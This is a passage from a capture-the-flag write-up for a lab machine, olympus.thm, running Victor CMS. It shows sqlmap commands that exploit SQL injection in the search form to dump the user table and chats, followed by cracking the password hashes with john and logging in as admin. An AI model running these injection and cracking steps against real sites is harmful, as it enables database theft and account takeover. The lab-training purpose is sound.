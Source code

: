 Its using `Victor CMS v1.0` so I go to `https://www.exploit-db.com/exploits/48734` to look for possible exploits. I find one and try it:
````shell
sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" --dbs --random-agent -v 3

available databases [6]:  
[*] information_schema  
[*] mysql  
[*] olympus  
[*] performance_schema  
[*] phpmyadmin  
[*] sys

sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus --dump --random-agent -v 3

| user_id | randsalt | user_name  | user_role | user_email | user_image | user_lastname | user_password | user_firstname |  

|3|<blank>| prometheus | User | prometheus@olympus.thm |<blank>|<blank>| $2y$10$hash | prometheus |

|6| dgas | root | Admin | root@chat.olympus.thm  |<blank>|<blank>| $2y$10$hash | root |

|7 | dgas | zeus | User | zeus@chat.olympus.thm |<blank>|<blank>| $2y$10$hash | zeus |

+---------------------------+  
| flag                      |  
+---------------------------+  
| flag{...}                 |  
+---------------------------+

+------------+--------------------------------------+
Chats
+------------+--------------------------------------+  
| 2022-04-05 | Attached : prometheus_password.txt                             
| prometheus | 47c3210d51761....txt                 |  
| 2022-04-05 | This looks great! I tested an upload and found the upload folder, but it seems the filename got changed somehow because I cant download it back... | prometheus | <blank>                              |  
| 2022-04-06 | I know this is pretty cool. The IT guy used a random file name function to make it harder for attackers to access the uploaded files. Hes still working on it.  
| zeus       | <blank>                              |
+------------+--------------------------------------+ 
````
This got me the first flag and lot's of good info including emails `prometheus@olympus.thm`, `root@chat.olympus.thm`, and `zeus@chat.olympus.thm`

I save the hashes to a file and run `/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt` and get the password `...` from one of the hashes.

I login with `...` and land at `http://olympus.thm/~webmaster/admin/`.
